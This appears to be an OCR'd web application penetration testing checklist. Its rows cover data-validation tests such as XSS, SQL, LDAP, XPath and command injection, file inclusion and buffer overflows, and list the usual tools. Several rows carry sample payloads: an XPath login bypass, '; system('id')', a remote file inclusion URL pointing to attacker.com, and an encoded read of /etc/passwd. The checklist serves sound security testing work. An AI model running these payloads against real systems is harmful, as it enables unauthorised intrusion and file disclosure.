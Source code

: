 Data Validation Testing	Test Name	Description	Tools	Result	Remark
- [ ]-INPVAL-001	Testing for Reflected Cross Site Scripting	Check for input validation, Replace the vector used to identify XSS, XSS with HTTP Parameter Pollution.	Burp Proxy, ZAP, Xenotix XSS	Not Started	
- [ ]-INPVAL-002	Testing for Stored Cross Site Scripting	Check input forms/Upload forms and analyze HTML codes, Leverage XSS with BeEF	Burp Proxy, ZAP, BeEF, XSS Proxy	Not Started	
- [ ]-INPVAL-003	Testing for HTTP Verb Tampering	Craft custom HTTP requests to test the other methods to bypass URL authentication and authorization.	netcat	Not Started	
- [ ]-INPVAL-004	Testing for HTTP Parameter pollution	Identify any form or action that allows user-supplied input to bypass Input validation and filters using HPP	ZAP, HPP Finder (Chrome Plugin)	Not Started	
- [ ]-INPVAL-005	Testing for SQL Injection	Union, Boolean, Error based, Out-of-band, Time delay.	Burp Proxy (SQLipy), SQLMap, Pangolin, Seclists (FuzzDB)	Not Started	
	Oracle Testing	Identify URLs for PL/SQL web applications, Access with PL/SQL Packages, Bypass PL/SQL Exclusion list, SQL Injection	Orascan, SQLInjector	Not Started	
	MySQL Testing	Identify MySQL version, Single quote, Information_schema, Read/Write file.	SQLMap, Mysqloit, Power Injector	Not Started	
	SQL Server Testing	Comment operator (- -), Query separator (;), Stored procedures (xp_cmdshell)	SQLMap, SQLninja, Power Injector	Not Started	
	Testing PostgreSQL	Determine that the backend database engine is PostgreSQL by using the :: cast operator. Read/Write file, Shell Injection (OS command)	SQLMap	Not Started	
	MS Access Testing	Enumerate the column through error-based (Group by), Obtain database schema combine with fuzzdb.	SQLMap	Not Started	
	Testing for NoSQL injection	Identify NoSQL databases, Pass special characters (' " \ ; { } ), Attack with reserved variable name, operator.	NoSQLMap	Not Started	
- [ ]-INPVAL-006	Testing for LDAP Injection	"/ldapsearch?user=*
user=*user=*)(uid=*))(|(uid=*
pass=password"	Burp Proxy, ZAP	Not Started	
- [ ]-INPVAL-007	Testing for ORM Injection	Testing ORM injection is identical to SQL injection testing	Hibernate, Nhibernate	Not Started	
- [ ]-INPVAL-008	Testing for XML Injection	"Check with XML Meta Characters
', "" , <>, , &, <![CDATA[ / ]]>, XXE, TAG"	Burp Proxy, ZAP, Wfuzz	Not Started	
- [ ]-INPVAL-009	Testing for SSI Injection	"• Presense of .shtml extension
• Check for these characters
< ! # = / . "" - > and [a-zA-Z0-9]
• include String = "	Burp Proxy, ZAP	Not Started	
- [ ]-INPVAL-010	Testing for XPath Injection	"Check for XML error enumeration by supplying a single quote (')
Username: ‘ or ‘1’ = ‘1
Password: ‘ or ‘1’ = ‘1"	Burp Proxy, ZAP	Not Started	
- [ ]-INPVAL-011	IMAP/SMTP Injection	"• Identifying vulnerable parameters with special characters
(i.e.: \, ‘, “, @, #, !, |)
• Understanding the data flow and deployment structure of the client
• IMAP/SMTP command injection (Header, Body, Footer)"	Burp Proxy, ZAP	Not Started	
- [ ]-INPVAL-012	Testing for Code Injection	"Enter OS commands in the input field.
?arg=1; system('id')"	Burp Proxy, ZAP, Liffy, Panoptic	Not Started	
	Testing for Local File Inclusion	LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource)	Burp Proxy, fimap, Liffy	Not Started	
	Testing for Remote File Inclusion	"RFI from malicious URL
?page.php?file=http://attacker.com/malicious_page"	Burp Proxy, fimap, Liffy	Not Started	
- [ ]-INPVAL-013	Testing for Command Injection	"Understand the application platform, OS, folder structure, relative path and execute OS commands on a Web server.
%3Bcat%20/etc/passwd
test.pdf+|+Dir C:\"	Burp Proxy, ZAP, Commix	Not Started	
- [ ]-INPVAL-014	Testing for Buffer overflow	"• Testing for heap overflow vulnerability
• Testing for stack overflow vulnerability
• Testing for format string vulnerability"	Immunity Canvas, Spike, MSF, Nessus	Not Started	
	Testing for Heap overflow			Not Started	
	Testing for Stack overflow			Not Started	
	Testing for Format string			Not Started	
- [ ]-INPVAL-015	Testing for incubated vulnerabilities	File Upload, Stored XSS , SQL/XPATH Injection, Misconfigured servers (Tomcat, Plesk, Cpanel)	Burp Proxy, BeEF, MSF	Not Started	